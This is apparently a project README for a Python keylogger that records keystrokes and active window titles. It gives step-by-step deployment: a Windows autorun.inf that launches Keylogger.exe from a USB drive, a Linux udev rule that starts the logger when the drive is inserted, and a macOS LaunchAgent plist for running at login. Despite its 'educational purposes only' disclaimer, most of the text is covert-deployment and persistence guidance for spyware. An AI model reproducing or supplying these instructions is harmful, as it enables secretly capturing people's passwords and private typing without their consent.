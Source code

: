 # **Keylogger with Autorun Support**

This project is a simple keylogger written in Python, which logs key presses along with the active window titles. It has been converted to a `.exe` file for easy use on Windows systems and includes optional **autorun** functionality when placed on a USB drive. The keylogger is designed for **educational purposes only** and should be used in controlled environments or with explicit consent.

---

## **Features**
- Logs all key presses to a file (`key_log.txt`).
- Captures the active window title for context.
- Cross-platform support:
  - **Windows**: Supports `.exe` conversion and optional autorun with `autorun.inf`.
  - **Linux**: Can run with Python directly; udev rules for USB autorun.
  - **macOS**: Supports Python execution and `.plist` for autorun.
- Automatically stops and saves logs when the USB is removed (Linux/macOS).

---

## **How to Run**

### **1. For Windows**
1. **Run the Pre-Converted `.exe`**:
   - Download the `Keylogger.exe` file from the repository.
   - Place it on your USB drive or anywhere on your system.
   - Double-click the `.exe` to start logging.

2. **Enable Autorun (Optional)**:
   - Place the provided `autorun.inf` file in the **root directory** of your USB drive.
   - Ensure the `autorun.inf` contains:
     ```
     [Autorun]
     open=Keylogger.exe
     icon=Keylogger.ico
     ```
   - Insert the USB drive into a Windows machine. The `.exe` should automatically run (if autorun is enabled).

3. **Log File**:
   - The key presses will be saved in a file named `key_log.txt` in the same directory as the `.exe`.

---

### **2. For Linux**
1. **Install Python**:
   - Ensure Python 3 is installed on your system.
   - Install dependencies by running:
     ```
     pip3 install pynput python-xlib
     ```

2. **Run the Script**:
   - Download `keylogger.py` and run it with:
     ```
     python3 keylogger.py
     ```

3. **Optional: Enable USB Autorun**:
   - Place the script on a USB and create a shell script named `start_keylogger.sh` to execute it:
     ```
     #!/bin/bash
     python3 /path/to/keylogger.py
     ```
   - Add a udev rule to automatically start the keylogger when the USB is inserted:
     ```
     sudo nano /etc/udev/rules.d/99-usb-keylogger.rules
     ```
   - Add the following content (replace `idVendor` and `idProduct` with your USB's IDs):
     ```
     ACTION=="add", ATTRS{idVendor}=="YOUR_USB_VENDOR_ID", ATTRS{idProduct}=="YOUR_USB_PRODUCT_ID", RUN+="/path/to/start_keylogger.sh"
     ```

---

### **3. For macOS**
1. **Install Python**:
   - Install dependencies by running:
     ```
     pip3 install pynput pyobjc
     ```

2. **Run the Script**:
   - Download `keylogger.py` and run it with:
     ```
     python3 keylogger.py
     ```

3. **Optional: Enable USB Autorun**:
   - Create a shell script named `start_keylogger.sh` to run the keylogger:
     ```
     #!/bin/bash
     python3 /path/to/keylogger.py
     ```
   - Add a `.plist` file in `~/Library/LaunchAgents/` with the following content:
     ```
     <?xml version="1.0" encoding="UTF-8"?>
     <plist version="1.0">
     <dict>
         <key>Label</key>
         <string>com.usb.keylogger</string>
         <key>ProgramArguments</key>
         <array>
             <string>/Volumes/USB_NAME/start_keylogger.sh</string>
         </array>
         <key>RunAtLoad</key>
         <true/>
     </dict>
     </plist>
     ```
   - Load the agent with:
     ```
     launchctl load ~/Library/LaunchAgents/com.usb.keylogger.plist
     ```

---

## **File Structure**

When using the USB with autorun functionality, your USB drive should have the following files in its **root directory**:

- `autorun.inf`
- `Keylogger.exe`
- `Keylogger.ico` (optional, for custom icon)
- `_internal/` (if your `.exe` depends on additional files)

---

## **Limitations**

- Modern operating systems (Windows 7 and above) often disable autorun for security reasons.
- Autorun works best on older systems or with proper manual configuration.

---

## **Disclaimer**

This project is intended for educational purposes only. Unauthorized use of this tool is strictly prohibited and may violate local laws. Always ensure you have explicit consent before running this tool.

---

Feel free to test the instructions and let me know if you need anything adjusted!
